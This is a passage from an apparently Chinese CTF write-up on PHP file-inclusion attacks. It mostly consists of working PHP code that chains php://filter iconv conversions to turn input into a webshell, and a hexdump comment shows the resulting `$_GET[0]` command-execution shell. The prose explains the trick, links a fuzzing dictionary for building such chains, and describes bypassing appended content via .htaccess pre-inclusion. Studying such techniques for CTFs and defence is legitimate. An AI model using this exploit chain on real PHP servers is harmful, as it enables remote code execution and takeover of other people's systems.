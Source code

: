 ```php
    'V' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5',
    '0' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    'Y' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2',
    'W' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2',
    'd' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'D' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
    '7' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '4' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2'
);

$filters = "convert.base64-encode|";
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
$filters .= "convert.iconv.UTF8.UTF7|";

foreach (str_split(strrev($base64_payload)) as $c) {
    $filters .= $conversions[$c] . "|";
    $filters .= "convert.base64-decode|";
    $filters .= "convert.base64-encode|";
    $filters .= "convert.iconv.UTF8.UTF7|";
}
$filters .= "convert.base64-decode";

$final_payload = "php://filter/{$filters}/resource=data://,aaaaaaaaaaaaaaaaaaaa";

// echo $final_payload;
var_dump(file_get_contents($final_payload));

// hexdump
// 00000000  73 74 72 69 6e 67 28 31  38 29 20 22 3c 3f 3d 60  |string(18) "<?=`|
// 00000010  24 5f 47 45 54 5b 30 5d  60 3b 3b 3f 3e 18 22 0a  |$_GET[0]`;;?>.".|
```

可以看到这里不断的利用编码和转码进行转化利用 base64 的宽松性来构造出马子  
剩下的那些题目就自己去看吧 hhh  
当然有些师傅有头疼，那我怎么知道经过什么转化能变成我要的东西呀，这里贴一个传送门 hh，一个 fuzz 的代码  
[https://github.com/wupco/PHP\_INCLUDE\_TO\_SHELL\_CHAR\_DICT](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)  
tql wupco 师傅

## 第三种类型

`file_put_contents($filename,$content . "\nxxxxxx");`  
这里也就比较简单，其实就是对后面的杂糅内容进行注释，但是题目肯定会做限制，所以也有其他方法，也是可以利用写入`.htaccess` 文件进行预包含将后面的杂糅语句注释掉即可
